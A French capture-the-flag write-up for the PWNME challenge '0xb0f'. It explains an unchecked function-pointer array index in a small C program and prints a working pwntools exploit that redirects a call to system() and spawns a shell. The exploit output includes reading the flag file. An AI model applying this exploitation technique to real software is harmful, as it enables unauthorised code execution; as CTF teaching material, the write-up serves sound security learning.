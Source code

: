 ## PWN / 0xb0f

<p align="center">
  <img src="img/consignes.png" />
</p>

### Fichiers

- [Code source](0x00b.c)
- [Binaire](0x00b)
- [Linker](ld-musl-x86_64.so.1)

Le code source nous est donnée, ce qui est plus simple pour l'analyse statique, ainsi que le linker cette fois. Effectivement, le binaire ne se lance pas en local (pas la bonne libc), mais on peut le patcher avec ![pwninit](https://github.com/io12/pwninit)

```bash
$ pwninit --bin 0x00b --ld ld-musl-x86_64.so.1
```

Et on récupère un `0x00b_patched` qui fonctionne.


```bash
$ checksec --file=0x00b_patched
RELRO           STACK CANARY      NX            PIE
Partial RELRO   Canary found      NX enabled    No PIE
```



### Code source

```c
void (*functions[2])(char *);
char user_input[100];

void get_input(char *buffer){ fgets(buffer, 100, stdin); }

void execute(char *buffer){ system(buffer); }

int main()
{
    puts("Fill the buffer:");
    fgets(user_input, 100, stdin);
    functions[0] = &puts;
    functions[1] = &get_input;

    char *input = NULL;
    size_t input_len = 0;

    char input_buffer[100];

    while (1)
    {
        printf("0: puts\n"
               "1: get_input\n"
               " >> ");
        if (getline(&input, &input_len, stdin) == -1)
            break;

        int choice = atoi(input);
        functions[choice](input_buffer);
    }
}
```

Le programme nous permet :
- de remplir un buffer `user_input`
- d'appeler une fonction `puts` ou `get_input` sur un autre buffer `input_buffer`


La vulnérabilité vient de la façon dont est construit le tableau de pointeur de fonctions `functions` et surtout de l'appel à une des fonctions pointées sans contrôler le choix de l'utilisateur.
- si on appelle `0` c'est `puts`
- si on appelle `1` c'est `get_input`

En revanche si l'on appelle un indice plus grand ? Et bien le programme va aller chercher dans la bss l'adresse qui se trouve à `*functions[i]`


### Exploit


Comme on contrôle le buffer situé juste après `functions`, on peut écrire dedans l'adresse de `execute()` et appeler une `functions` avec un indice plus élevé que `1`.

Du coup on aura appelé `execute(input_buffer)`

En ayant pris soin auparavant d'écrire dans le buffer la commande de notre choix.

- code : [0x00b.py](0x00b.py)

```python
execute = 0x00000000004011ad

# write execute address into buffer user_input
payload = p64(execute) * 10
payload += b"A" * (100 - len(payload) -1 )
payload +=b'\n'

r = conn()

r.send(payload)

# write commande into buffer input_buffer
r.send(b'1\n')
r.send(b'/bin/sh\x00\n')

# call execute(input_buffer)
r.send(b'4\n')
r.interactive()
```




```bash
$ python3 0x00b.py
[+] Opening connection to pwn.pwnme.fr on port 7004: Done
[*] Switching to interactive mode
Fill the buffer:
$ id
uid=100(player) gid=101(ctf) groups=101(ctf)
$ ls
0x00b
entry.sh
flag.txt
$ cat flag.txt
PWNME{3a2d78fdc823736af2bd10a35a439b08}
```
